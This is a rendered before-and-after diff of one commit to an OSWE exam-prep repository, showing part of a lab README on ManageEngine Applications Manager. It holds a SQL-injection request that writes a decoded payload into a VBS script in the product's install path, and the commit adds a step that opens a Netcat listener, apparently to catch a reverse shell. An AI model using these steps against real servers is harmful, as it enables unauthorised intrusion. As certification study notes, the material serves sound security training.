

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/ManageEngine/README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/ManageEngine/README.md
+++ b/OSWE-Labs/ManageEngine/README.md
@@ -43,4 +43,7 @@ Match and replace roles in Notepad++ (to make the payload oneliner):
     ```
       /servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;copy (select convert_from(decode($$ENCODED_PAYLOAD_HERE$$,$$base64$$),$$utf-8$$)) to $$C:\\Program Files (x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
     ```
-  -
+5. **Open a Netcat listener**
+```
+nc -nlvp 1337
+```
````
